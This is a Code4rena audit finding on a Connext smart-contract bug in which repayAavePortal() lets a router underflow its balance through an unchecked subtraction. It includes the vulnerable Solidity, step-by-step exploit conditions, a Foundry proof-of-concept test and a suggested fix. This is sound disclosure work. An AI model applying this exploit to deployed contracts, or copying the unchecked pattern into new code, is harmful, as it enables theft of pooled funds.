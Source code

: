 ## Tags

- bug
- 3 (High Risk)
- resolved
- sponsor confirmed

# [`PortcalFacet.repayAavePortal()` can trigger an underflow of `routerBalances`](https://github.com/code-423n4/2022-06-connext-findings/issues/68) 

# Lines of code

https://github.com/code-423n4/2022-06-connext/blob/main/contracts/contracts/core/connext/facets/PortalFacet.sol#L80-L113


# Vulnerability details

## Impact
The caller of `repayAavePortal()` can trigger an underflow to arbitrarily increase the caller's balance through an underflow.

## Proof of Concept
```sol
// Relevant code sections:

// PortalFacet.sol
  function repayAavePortal(
    address _local,
    uint256 _backingAmount,
    uint256 _feeAmount,
    uint256 _maxIn,
    bytes32 _transferId
  ) external {
    uint256 totalAmount = _backingAmount + _feeAmount; // in adopted
    uint256 routerBalance = s.routerBalances[msg.sender][_local]; // in local

    // Sanity check: has that much to spend
    if (routerBalance < _maxIn) revert PortalFacet__repayAavePortal_insufficientFunds();

    // Need to swap into adopted asset or asset that was backing the loan
    // The router will always be holding collateral in the local asset while the loaned asset
    // is the adopted asset

    // Swap for exact `totalRepayAmount` of adopted asset to repay aave
    (bool success, uint256 amountIn, address adopted) = AssetLogic.swapFromLocalAssetIfNeededForExactOut(
      _local,
      totalAmount,
      _maxIn
    );

    if (!success) revert PortalFacet__repayAavePortal_swapFailed();

    // decrement router balances
    unchecked {
      s.routerBalances[msg.sender][_local] -= amountIn;
    }

    // back loan
    _backLoan(_local, _backingAmount, _feeAmount, _transferId);
  }

// AssetLogic.sol
  function swapFromLocalAssetIfNeededForExactOut(
    address _asset,
    uint256 _amount,
    uint256 _maxIn
  )
    internal
    returns (
      bool,
      uint256,
      address
    )
  {
    AppStorage storage s = LibConnextStorage.connextStorage();

    // Get the token id
    (, bytes32 id) = s.tokenRegistry.getTokenId(_asset);

    // If the adopted asset is the local asset, no need to swap
    address adopted = s.canonicalToAdopted[id];
    if (adopted == _asset) {
      return (true, _amount, _asset);
    }

    return _swapAssetOut(id, _asset, adopted, _amount, _maxIn);
  }
```
First, call `repayAavePortal()` where `_backingAmount + _feeAmount > s.routerBalances[msg.sender][_local] && _maxIn > s.routerBalances[msg.sender][_local]`. That will trigger the call to the AssetLogic contract:
```sol
    (bool success, uint256 amountIn, address adopted) = AssetLogic.swapFromLocalAssetIfNeededForExactOut(
      _local,
      totalAmount,
      _maxIn
    );
```
By setting `_local` to the same value as the adopted asset, you trigger the following edge case:
```sol
    address adopted = s.canonicalToAdopted[id];
    if (adopted == _asset) {
      return (true, _amount, _asset);
    }
```
So the `amountIn` value returned by `swapFromLocalAssetIfNeededForExactOut()` is the `totalAmount` value that was passed to it. And `totalAmount == _backingAmount + _feeAmount`.

Meaning the `amountIn` value is user-specified for this edge case. Finally, we reach the following line:
```sol
    unchecked {
      s.routerBalances[msg.sender][_local] -= amountIn;
    }
```
`amountIn` (user-specified) is subtracted from the `routerBalances` in an `unchecked` block. Thus, the attacker is able to trigger an underflow and increase their balance arbitrarily high. The `repayAavePortal()` function only verifies that `routerBalance < _maxIn`.

Here's a test as PoC:
```sol
// PortalFacet.t.sol

  function test_PortalFacet_underflow() public {
    s.routerPermissionInfo.approvedForPortalRouters[router] = true;

    uint backing = 2 ether;
    uint fee = 10000;
    uint init = 1 ether;

    s.routerBalances[router][_local] = init;
    s.portalDebt[_id] = backing;
    s.portalFeeDebt[_id] = fee;

    vm.mockCall(s.aavePool, abi.encodeWithSelector(IAavePool.backUnbacked.selector), abi.encode(true));
    vm.prank(router);
    this.repayAavePortal(_local, backing, fee, init - 0.5 ether, _id);

    // balance > init => underflow
    require(s.routerBalances[router][_local] > init);
  }
```
## Tools Used
none

## Recommended Mitigation Steps
After the call to `swapFromLocalAssetIfNeededForExactOut()` you should add the following check:
```sol
if (_local == adopted) {
  require(routerBalance >= amountIn);
}
```

